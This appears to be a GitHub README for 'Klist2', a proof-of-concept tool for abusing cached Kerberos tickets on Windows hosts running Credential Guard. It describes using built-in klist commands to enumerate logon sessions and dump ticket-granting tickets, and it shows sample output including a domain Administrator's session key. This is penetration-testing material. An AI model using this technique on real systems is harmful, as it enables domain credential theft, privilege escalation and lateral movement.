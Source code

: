 # Klist2
A tool for exploiting Kerberos tickets against system with Credential Guard enabled. 

**The tools in this Repo have been tested on multiple systems but I am not an active developer. I did my best to cover bases and implement proper error handling but mistakes could have been made. The purpose of this repo is more of a proof of concept for technique so use at your own risk**

This repository is a work in progress for abusing cached kerberos tickets when credential guard is enabled. With Credential Guard enabled (which it is by default on Windows server 2025 and newer) TGT session keys are protected even from Administrators or system limiting credential theft exposure. A common technique I utilize during penetration tests is to use the builtin klist.exe tool to extract TGT's that are cached on a target system which often results in relatively stealthy credential theft, privilege escalation and lateral movement. Technique is fairly simple. You can use klist sessions to enumerate logon sessions then dump TGT information using klist tgt -li <luid> command. 

PS C:\WINDOWS\system32> klist sessions<br>
<br>
Current LogonId is 0:0x468c4f9<br>
[0] Session 0 0:0x46931ff TEST\test Kerberos:Network<br>
[1] Session 0 0:0x468c4f9 TEST\Administrator Kerberos:Interactive<br>
[2] Session 0 0:0x467fecc TEST\test Kerberos:Network<br>
[3] Session 0 0:0x46588c0 TEST\test NTLM:Network<br>
[4] Session 2 0:0x14d465 TEST\Administrator Kerberos:RemoteInteractive<br>
[5] Session 1 0:0x144c4 Window Manager\DWM-1 Negotiate:Interactive<br>
[6] Session 0 0:0xe140 Font Driver Host\UMFD-0 Negotiate:Interactive<br>
[7] Session 2 0:0x1488de Window Manager\DWM-2 Negotiate:Interactive<br>
[8] Session 0 0:0x1ffd6 NT Service\MSSQLSERVER Negotiate:Service<br>
[9] Session 1 0:0x14514 Window Manager\DWM-1 Negotiate:Interactive<br>
[10] Session 0 0:0x3e7 TEST\SQL01$ Negotiate:(0)<br>
[11] Session 0 0:0x20613 NT Service\SQLTELEMETRY Negotiate:Service<br>
[12] Session 1 0:0xe15a Font Driver Host\UMFD-1 Negotiate:Interactive<br>
[13] Session 0 0:0x3e4 TEST\SQL01$ Negotiate:Service<br>
[14] Session 0 0:0xd8bb \ NTLM:(0)<br>
[15] Session 0 0:0x4678089 TEST\test Kerberos:Network<br>
[16] Session 0 0:0x464cb7d TEST\test Negotiate:Interactive<br>
[17] Session 0 0:0x464cb51 TEST\test Kerberos:Interactive<br>
[18] Session 0 0:0x452acc6 TEST\Administrator NTLM:Network<br>
[19] Session 2 0:0x14890f Window Manager\DWM-2 Negotiate:Interactive<br>
[20] Session 2 0:0x148696 Font Driver Host\UMFD-2 Negotiate:Interactive<br>
[21] Session 0 0:0x3e5 NT AUTHORITY\LOCAL SERVICE Negotiate:Service<br>

PS C:\Windows\Tasks> klist tgt<br>
Ticket Count: 1<br>
<br>
Cached TGT:<br>
<br>
ServiceName        : krbtgt/TEST.LOCAL<br>
TargetName         : krbtgt/TEST<br>
FullServiceName    : Administrator<br>
DomainName         : TEST.LOCAL<br>
TargetDomainName   : TEST.LOCAL<br>
AltTargetDomainName: TEST.LOCAL<br>
TicketFlags        : (0x40e10000) forwardable renewable initial preauth<br>
Session Key        : KeyType 0x12 - AES-256-CTS-HMAC-SHA1-96<br>
                   : KeyLength 32 - 35 1D E3 98 01 79 B9 AD EB BB 3A 2A FB 15 7E 48 61 8E C2 DD AF 07 81 2B 1A C0 CF 06 72 5A 37 33<br>
StartTime          : 9/2/2025 12:05:02<br>
EndTime            : 9/2/2025 22:05:02<br>
RenewUntil         : 9/9/2025 12:05:02<br>
TimeSkew           : 0<br>
EncodedTicket      : (size: 1226)<br>
<br>
<br>